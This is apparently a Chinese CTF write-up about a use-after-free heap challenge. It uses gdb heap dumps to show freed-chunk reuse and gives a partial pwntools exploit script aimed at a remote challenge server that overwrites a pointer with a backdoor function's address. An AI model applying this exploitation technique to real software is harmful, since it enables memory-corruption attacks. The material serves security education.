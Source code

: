 一个非常有意思的事情是，如果我们重新开辟的内存大小与上一次释放的内存大小相同，那么系统会在一个一样的位置建一个新堆。我们可以用gdb调试具体看看是什么情况：
1. 在第一次输入之前查看堆(heap chunks)：
```
Chunk(addr=0x555555559010, size=0x290, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000555555559010     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x5555555592a0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00005555555592a0     92 52 55 55 55 55 00 00 00 00 00 00 00 00 00 00    .RUUUU..........]
Chunk(addr=0x5555555592c0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00005555555592c0     92 52 55 55 55 55 00 00 00 00 00 00 00 00 00 00    .RUUUU..........]
Chunk(addr=0x5555555592e0, size=0x20d30, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  top chunk
```
显然中间的两个即为v8与v9(我的Kali似乎分配了32字节)，注意看地址分别为`addr=0x5555555592a0`与`addr=0x5555555592c0`。
2. 现在我们输入1，然后看看堆的变化情况
```
Chunk(addr=0x555555559010, size=0x290, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000555555559010     01 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x5555555592a0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00005555555592a0     59 55 55 55 05 00 00 00 11 9f 6f 5f 80 af 31 07    YUUU......o_..1.]
Chunk(addr=0x5555555592c0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00005555555592c0     92 52 55 55 55 55 00 00 00 00 00 00 00 00 00 00    .RUUUU..........]
Chunk(addr=0x5555555592e0, size=0x20d30, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  top chunk
```
对比上下，我们发现地址为`0x5555555592a0`那处堆被弃用了。
3. 假定我们现在第二次输入为32(v6的大小)，看看堆的情况：
```
Chunk(addr=0x555555559010, size=0x290, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000555555559010     01 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x5555555592a0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00005555555592a0     59 55 55 55 05 00 00 00 e0 92 55 55 55 55 00 00    YUUU......UUUU..]
Chunk(addr=0x5555555592c0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00005555555592c0     92 52 55 55 55 55 00 00 00 00 00 00 00 00 00 00    .RUUUU..........]
Chunk(addr=0x5555555592e0, size=0x30, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00005555555592e0     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x555555559310, size=0x20d00, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  top chunk
```
在地址为`0x5555555592e0`处开辟了一个新堆，那如果输入16会怎样呢：
```
Chunk(addr=0x555555559010, size=0x290, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x0000555555559010     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x5555555592a0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00005555555592a0     59 55 55 55 05 00 00 00 a0 92 55 55 55 55 00 00    YUUU......UUUU..]
Chunk(addr=0x5555555592c0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00005555555592c0     92 52 55 55 55 55 00 00 00 00 00 00 00 00 00 00    .RUUUU..........]
Chunk(addr=0x5555555592e0, size=0x20d30, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  top chunk
```
我们发现如果我们第二次输入为16，那么heap将会建在v8所指的位置，现在我们往上面写入后门函数所指的地址就可以了。

PS:但是比较好玩的事情是，这个动态内存分配比较神奇，笔者尝试输入14-24的长度似乎都能跑出flag来，可以自行尝试，交互代码如下所示：
```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
#io=process('./uaf')
io=remote('124.16.75.162',31049)
io.recvuntil(b'>')
io.sendline(b'1')
io.recvline()
addr=io.recvline()[41:55].decode()
io.recvuntil(b'>')
print(addr)
io.sendline(b'16')
io.recvuntil(b'>')
payload=p64(int(addr,16))+b'\x00'*6
```